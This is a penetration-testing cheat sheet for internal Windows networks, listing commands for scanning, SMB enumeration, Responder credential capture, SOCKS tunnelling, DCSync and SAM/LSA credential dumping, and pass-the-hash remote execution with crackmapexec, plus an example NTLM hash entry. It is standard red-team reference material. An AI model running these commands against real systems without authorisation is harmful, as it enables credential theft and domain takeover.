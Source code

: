 # Network Information

## Passive

`arp -a`

`ip a`

`ifconfig / ipconfig`

`tcpdump -i eth0`

`netdiscover`

## Scanning

`nbtscan 192.168.1.1/24`

`nbtscan-unixwiz 192.168.1.1/24`

`nmap -sSV --open -iL ips.txt -oA output`

`sudo nmap --script broadcast-dhcp-discover`

`ping 255.255.255.255`

## Recon

`enum4linux -a <ip>`

`smbmap -H <ip>`

`crackmapexec smb <ip>`

Get IP and hostname

## Responder

### Analyze Mode
`responder -I eth0 -A`

`responder -I eth0 -wFP`

### Force Basic Auth
`responder -I eth0 -wbFP`


# SSH Tunneling

### Socks proxy
`ssh -D 8080 root@<ip>`

Set Firefox network settings to use socks5 proxy 127.0.0.1 8080, must remove the HTTP proxy

# Dumping

## DCSYNC

`impacket-secretsdump DOMAIN/user:password@IP -history -outputfile output`

Gets all password history too, useful for identifying patterns

`crackmapexec smb <ip> -u user -p password --ntds`

## Other

`crackmapexec smb <ip> -u user -p password --sam`

Local SAM passwords, NTLM

`crackmapexec smb <ip> -u user -p password --lsa`

Looks for LSASS secrets, includes tokens and plaintext passwords stored in memory.

# Bloodhound

# crackmapexec

`crackmapexec smb <ip> -u user -p password -x 'whoami'`

-X for PowerShell, gets blocked by most systems

`crackmapexec smb <ip> -u user -H hash -x 'whoami'`

Pass the hash. This attack only works with NTLM hashes, not net hashes.

**Protocols**: {smb,rdp,winrm,ssh,ldap,mssql,ftp}

* **-u**: username
* **-p**: text password
* **--local-auth**: local auth, not domain auth
* **-x**: command execution
* **-X**: powershell command execution
  * Works better with winrm
* **-d**: domain

# smbmap

* **-H**: host
* **--host-file**: hosts file
* **-u**: username
* **-p**: text password or NT:LM hash
* **-d**: domain


# Windows Hashes

## NTLM
Local user hash, can be relayed to hosts with SMB signing disabled.

`Admin:500:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::`

Name:RID (relative identifier):LM hash:NT hash

## RID

* **500**: Administrator
* **501**: Guest
